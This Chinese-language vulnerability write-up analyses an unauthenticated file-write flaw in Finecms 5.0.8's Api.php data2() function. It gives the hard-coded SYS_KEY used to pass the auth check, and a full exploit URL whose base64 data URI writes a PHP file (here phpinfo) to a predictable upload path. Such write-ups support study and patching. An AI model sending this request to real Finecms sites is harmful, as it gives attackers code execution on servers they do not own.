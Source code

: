 Finecms 5.0.8 任意代码执行漏洞
==============================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.8

三、复现过程
------------

### 漏洞分析

在`/controllers/Api.php`中的data2函数，大约在第115行，有问题的代码大约在178行

    public function data2() {

        $data = array();

        // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {
            // 解析数据
            $cache = '';
            $param = $this->input->get('param');
            if (isset($param['cache']) && $param['cache']) {
                $cache = md5(dr_array2string($param));
                $data = $this->get_cache_data($cache);
            }
            if (!$data) {

                if ($param == 'login') {
                    // 登录认证
                    $code = $this->member_model->login(
                        $this->input->get('username'),
                        $this->input->get('password'),
                        0, 1);
                    if (is_array($code)) {
                        $data = array(
                            'msg' => 'ok',
                            'code' => 1,
                            'return' => $this->member_model->get_member($code['uid'])
                        );
                    } elseif ($code == -1) {
                        $data = array('msg' => fc_lang('会员不存在'), 'code' => 0);
                    } elseif ($code == -2) {
                        $data = array('msg' => fc_lang('密码不正确'), 'code' => 0);
                    } elseif ($code == -3) {
                        $data = array('msg' => fc_lang('Ucenter注册失败'), 'code' => 0);
                    } elseif ($code == -4) {
                        $data = array('msg' => fc_lang('Ucenter：会员名称不合法'), 'code' => 0);
                    }
                } elseif ($param == 'update_avatar') {
                    // 更新头像
                    $uid = (int)$_REQUEST['uid'];
                    $file = $_REQUEST['file'];
                    //
                    // 创建图片存储文件夹
                    $dir = SYS_UPLOAD_PATH.'/member/'.$uid.'/';
                    @dr_dir_delete($dir);
                    if (!is_dir($dir)) {
                        dr_mkdirs($dir);
                    }
                    $file = str_replace(' ', '+', $file);
                    if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                        $new_file = $dir.'0x0.'.$result[2];
                        if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                            $data = array(
                                'msg' => '目录权限不足或磁盘已满',
                                'code' => 0
                            );
                        }

其中，首先

    $file = $_REQUEST['file'];

获取\$file变量

    if (preg_match('/^(data:\s*image\/(\w+);base64,)/', $file, $result)){
                            $new_file = $dir.'0x0.'.$result[2];
                            if (!@file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file)))) {
                                $data = array(
                                    'msg' => '目录权限不足或磁盘已满',
                                    'code' => 0
                                );

然后用preg\_match函数进行正则匹配，因为\$file变量可控，所以\$result也是可控的，从而\$new\_file也是可控的，可以构造为php文件，然后

    file_put_contents($new_file, base64_decode(str_replace($result[1], '', $file))))

对\$result\[1\]进行base64解码，然后写入\$new\_file文件中。显然，是可以任意写文件进行getshell的。所以，我们要让程序能够运行到这些代码，不能在之前就退出了。要经过

     $auth = $this->input->get('auth');
     if ($auth != md5(SYS_KEY))

SYS\_KEY被系统硬编码为24b16fede9a67c9251d3e7c7161c83ac，在`./WWW/config/system.php`中有定义。直接md5加密一次即可绕过

### 漏洞复现

    http://www.0-sec.org:88/index.php?c=api&m=data2&auth=目标站点值&param=update_avatar&file=data:image/php;base64,PD9waHAgcGhwaW5mbygpOz8+

无需登录，直接getshell,路径为

    http://www.0-sec.org:88/uploadfile/member/0/0x0.php

1.png

参考链接
--------

> http://4o4notfound.org/index.php/archives/40/
